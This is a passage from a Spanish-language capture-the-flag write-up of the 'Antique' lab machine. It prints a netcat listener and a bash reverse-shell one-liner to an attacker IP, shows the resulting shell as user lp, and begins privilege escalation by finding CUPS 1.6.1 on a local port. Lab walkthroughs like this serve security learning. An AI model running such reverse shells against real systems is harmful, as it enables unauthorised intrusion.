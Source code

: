 Por lo que se puede enviar una **shell reversa** hacia la computadora para obtener conexión sobre el equipo. Por lo que dentro del equipo atacante hay que ponerse a la escucha con **NC** y dentro de la impresora enviar la shell.

```bash
nc -lvp 4444
```
{: .nolineno}


```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/4444 <&1'
```
{: .nolineno}


```bash
nc -lvp  4444
listening on [any] 4444 ...
10.10.11.107: inverse host lookup failed: Unknown host
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.107] 39162
bash: cannot set terminal process group (1013): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ 
```
{: .nolineno}


## Escalada de Privilegios

Al revisar los puertos que se encuentran en ejecución dentro del equipo con ayuda de **netstat**, se puede ver lo siguiente:


```bash
netstat -tunlp

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN      1021/python3        
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:161             0.0.0.0:*                           -                 
```
{: .nolineno}


Ahora, con esto se puede ver que hay un servicio corriendo dentro del equipo en el puerto **631**, pero al investigar, no parece tener un servicio habitual, por lo que se puede intentar hacerle un **curl** para obtener información.

Y se puede ver que se está usando algo llamado CUPS en su versión 1.6.1.
```bash
curl  http://127.0.0.1:631
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
	<META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
	<TITLE>Home - CUPS 1.6.1</TITLE>
	<LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
	<LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
<BODY>
```
{: .nolineno}